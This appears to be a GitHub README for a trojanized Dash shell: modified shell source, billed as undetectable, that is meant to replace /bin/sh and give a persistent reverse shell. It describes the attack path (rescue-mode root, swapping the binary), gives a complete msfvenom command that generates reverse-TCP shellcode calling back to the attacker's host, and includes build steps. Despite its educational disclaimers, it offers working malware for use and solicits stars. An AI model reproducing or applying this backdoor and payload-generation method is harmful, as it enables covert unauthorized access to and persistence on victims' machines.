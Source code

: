 # Dash shell Linux Trojan Backdoor (Undetectable Mar 29, 2023)

The purpose of this is to demonstrate what security risks there are when someone gains physical access to your computer. 

# WARNING
THIS CODE IS MALWARE!!! IT IS A LINUX TROJAN BACKDOOR! IT WILL OPEN A BACKDOOR INTO YOUR COMPUTER SYSTEM AND WILL ALLOW UNAUTHORIZED ACCESS TO IT. EXERCISE EXTREME CAUTION AND USE SECURITY BEST PRACTICES FOR EDUCATION USE. 

# Possible attack
An attack might look like this: Enter rescue mode and pop a root shell without a password. Replace the /bin/sh binary with this rootkit. The users probably won't know. The shell will still be 100% functional. 
Use this for persistence so the next time an authorized user accesses their account (with the 'sh' shell), you will receive a reverse shell that persists (in a new process) even after the terminal is closed.

The modified code is well documented. 
Change the shellcode in the `pskexec_dash()` function.
You can use a command like `msfvenom -p linux/x64/shell_reverse_tcp PrependFork=true LHOST=0.0.0.0 LPORT=3443 -f raw > shellcode.bin.tmp; xxd -i shellcode.bin.tmp > shellcode-addme.c; rm shellcode.bin.tmp` to generate a replacement. Make sure to change the IP address and port number in the above command to your server.

If you find this code useful, please leave a star ⭐.

# Build
Run the following commands.
```sh
./autogen.sh
./configure
make
strip ./src/dash

# DO NOT RUN `make install` OR THE MALWARE WILL INSTALL ON YOUR COMPUTER!!!
```
The binary is located in `./src/dash`.


# Disclaimer
This project was developed for security research, curiosity, ethical hacking, and educational purposes. It was intended to be used responsibly. Do not use this code for anything illegal in your jurisdiction. LICENSE TERMS APPLY.

Hack responsibly.

# Requests
I can port this code to other Linux binaries if anyone finds it useful. This rootkit is easily integrated into any other GNU/Linux C/C++ program.

# LEGAL NOTICE
The creators of the original "Dash" Software and their affiliates do not support or endorse the "dash-shell-rootkit " project. See the COPYING file for the previous "Dash" license.


If you find this code useful, please leave a star ⭐.
